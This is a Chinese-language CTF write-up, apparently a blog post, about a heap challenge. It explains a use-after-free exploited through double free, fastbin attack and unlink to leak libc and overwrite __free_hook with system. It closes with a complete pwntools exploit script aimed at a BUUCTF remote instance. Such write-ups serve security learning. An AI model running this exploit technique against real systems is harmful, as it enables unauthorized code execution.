








## 总结

通过这道题的学习与总结有：

这道题考察的依然是利用UAF打unlink。unlink攻击的核心是可以伪造fake_chunk以及控制fake_chunk下面的堆块的chunk头。虽然无法直接溢出，但是我们可以做一个double free，然后打fastbin attack将chunk头申请出来(在低地址堆块中写入size，保证chunk头可以从fastbin上出来)，接着就可以打unlink了。


## 保护策略：




## 程序分析

程序中就存在一个UAF漏洞(如下图)




同时限制了我们使用edit函数的次数为3次，限制了add函数的次数10次。最关键的是我们无法控制malloc出来堆块的大小，定死的size就是0x30。(如下图)




然后下面自定义的输入函数也不存在off by one以及溢出。




## 利用思路：

因为我们malloc申请的堆块大小是固定的0x30字节的，这样我们就没法得到libc地址，我们必须想办法让堆块进入unsorted bin中，这样执行show函数才能获取libc地址。所以我们肯定是要利用double free+fastbin attack将chunk头申请出来去修改堆块的size。

在这之前我们需要获取堆地址，然后多垫几个堆块，保证修改之后，堆块地址加上自身size后依然可以找到下一个正确的堆块地址。因为我们要将chunk头申请出来，就意味着我们需要伪造一个size，去通过fastbin的检查。**（edit函数用的时候要慎重，最后我们打unlink写入地址时就需要用掉两个edit函数的机会，所以我们前面的各种布局只能用一次edit函数，而且这次肯定还是要在fastin attack的时候用）**


然后我们下面放三种堆块布局，分别是正常的堆块A和堆块B，伪造size，申请chunk B head的布局，unlink时的堆块A和堆块B布局

**正常的堆块A和堆块B布局如下：**




因为**我们想把chunk B head申请出来，因此我们需要伪造size**，如下：

我解释一下这个图，首先我们是要控制chunk B head，因此我们先打一个double free+fastbin attack，将fake chunk（也就是黑色框中的部分）申请出来，这样我们往fake chunk中写入数据，就可以控制chunk B head了(将chunk B的size改成0xa0)，而在这之前我们需要在chunk A中的用户区写入0x31这个size(否则无法通过从fastbin中申请chunk的检查)




上一步可以控制chunk B head后，我们把chunk B释放掉后，它就进入了unsorted bin中。同时别忘记unlink的条件，我们需要一个大于fastbin 范围的堆块作为引线堆块，所以释放这个chunk B的时候，我们还需要顺便打一个unlink。另外我们还需要布局一个fake chunk，这个fake chunk的size肯定要是0x20，因此我们需要修改下chunk A中的user data，但是我们不能再用edit函数了，所以这里采用的方法是释放掉chunk A，然后再申请回来，写入0x21这个size，同时还要写入ptr-0x18和ptr-0x10。

**最终的unlink时布局如下**：




emmm，只要是熟悉unlink的师傅，应该都能看懂上面这个布局，最后提一下这个fake chunk是打fastbin attack强行错位申请出来的。<u>而为什么这个fake chunk的头必须要从0x603010开始，不能从0x603020开始？这是因为chunk B的地址是定死的，而它上面的内存单元必须是ptr-0x18和ptr-0x10，如果0x603020这个地址当做fake chunk head的话，那么0x603020这里应该是fake chunk的prev size，这样就不是ptr-0x18了，所以fake chunk必须在0x603010的地址开始。</u>


然后打一个unlink，此时我们就可以控制bss段存放堆块的地址了，而此时我们还有两次执行edit函数的机会。由于我们在chunk B释放后执行show函数也得到了libc地址，因此我们直接用edit函数写一个free_hook的地址在bss段上，再edit函数往里写一个system的地址。最后free掉一个存有/bin/sh\x00字符串的堆块即可获取shell。

## EXP:
[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)
```py
from tools import *
context.log_level='debug'
d_d=0x400D7D
d_a=0x400D59
d_e=0x400D65
d_s=0x400D71
p,e,libc=load("a","node4.buuoj.cn:25004")
libc=ELF('/home/hacker/Desktop/buu64-libc-2.23.so')
def add(index,content):
    p.sendlineafter('Choice:',str(1))
    p.sendlineafter('Index:',str(index))
    p.sendafter('Content:',content)

def edit(index,content):
    p.sendlineafter('Choice:',str(2))
    p.sendlineafter('Index:',str(index))
    p.sendafter('Content:',content)

def delete(index):
    p.sendlineafter('Choice:',str(4))
    p.sendlineafter('Index:',str(index))
    
def show(index):
    p.sendlineafter('Choice:',str(3))
    p.sendlineafter('Index:',str(index))    

def pwn():
    #sleep(4)
    add(0,'a'*0x20)
    add(1,b'b'*0x8+p64(0x21)+b'\n')
    add(2,'/bin/sh\x00'+'c'*0x18)
    add(3,p64(0)+p64(0x31)+p64(0)+p64(0x31))
    add(6,p64(0)+p64(0x21)+b'\n')
    delete(0)
    delete(1)
    delete(0)
    
    show(0)
    heap_addr=u64(p.recv(3).ljust(8,b'\x00'))
    log_addr('heap_addr')
    edit(0,p64(heap_addr-0x20)+p64(0x21)+p64(0)+p64(0x21))
    
    ptr=0x602060
    add(4,p64(0)+p64(0x31)+p64(ptr-0x18)+p64(ptr-0x10))
    #debug(p,0x400C86,d_d,d_a,d_s,d_e,0x400BD9)
    add(5,p64(ptr-0x18)+p64(ptr-0x10)+p64(0x20)+p64(0xa0))
    
    delete(0)
    
    add(7,p64(0)+p64(0x21)+p64(ptr-0x18)+p64(ptr-0x10))
    delete(1)
    
    show(5)
    
    leak_libc=recv_libc()
    libc_base=leak_libc-0x3c4b78
    log_addr('libc_base')
    one_gadget=search_og(0)+libc_base
    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']
    edit(0,b'a'*0x18+p64(free_hook))
    edit(0,p64(sys_addr)+b'\n')
    delete(2)
    p.interactive()

pwn()
```

